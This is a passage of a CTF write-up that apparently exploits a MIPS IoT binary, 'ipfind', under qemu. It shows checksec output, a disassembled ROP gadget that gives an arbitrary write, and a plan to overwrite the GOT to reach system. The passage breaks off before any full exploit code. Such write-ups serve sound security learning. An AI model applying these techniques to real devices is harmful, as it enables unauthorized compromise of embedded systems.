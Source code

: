 ```c
    v5 = -1;
  }
  usrFree();
  return v5;
}
```

# Exploit

After `checksec`, the program found that the security compilation options were not enabled, but [mipsrop](https://github.com/tacnetsol/ida/tree/master/plugins/mipsrop) did not give a valid output, which means we have to construct rop by yourself. At the same time, ASLR in the qemu system is also one of the limitations of the challenge.

```
$ checksec /mnt/hgfs/rwctf/iot/firmware/ipfind
[*] You have the latest version of Pwntools (4.8.0)
[*] '/mnt/hgfs/rwctf/iot/firmware/ipfind'
    Arch:     mips-32-big
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

## Write GOT

If PIE is not enabled, we should check to see if there are any gadgets that can be used in the .text section, we cloud notice a gadget written in 4 bytes:

```
.text:00400F24 8F A2 00 18                 lw      $v0, 0x20+var_8($sp)
.text:00400F28 AE 02 00 0D                 sw      $v0, 0xD($s0)
.text:00400F2C
.text:00400F2C             loc_400F2C:                              # CODE XREF: sub_400E50+CC↑j
.text:00400F2C 8F 82 80 68                 la      $v0, ifname
.text:00400F30 8C 44 00 00                 lw      $a0, (ifname - 0x413138)($v0)
.text:00400F34 8F 99 80 8C                 la      $t9, net_get_hwaddr
.text:00400F38 03 20 F8 09                 jalr    $t9 ; net_get_hwaddr
.text:00400F3C 26 05 00 11                 addiu   $a1, $s0, 0x11
.text:00400F40 8F BF 00 24                 lw      $ra, 0x20+var_s4($sp)
.text:00400F44 8F B0 00 20                 lw      $s0, 0x20+var_s0($sp)
.text:00400F48 03 E0 00 08                 jr      $ra
.text:00400F4C 27 BD 00 28                 addiu   $sp, 0x28
```

`$s0` is controllable at the overflow point, which is equivalent to writing at any address. We can write a custom command and then jump to the system, or modify the GOT table and jump. We choose the latter one. Interested ctfers can try the first one. In the process of constructing the subsequent rop chain, you will find the first error place. The reason is that IDA has done some work for us, so that the `$gp` register is not considered in place:
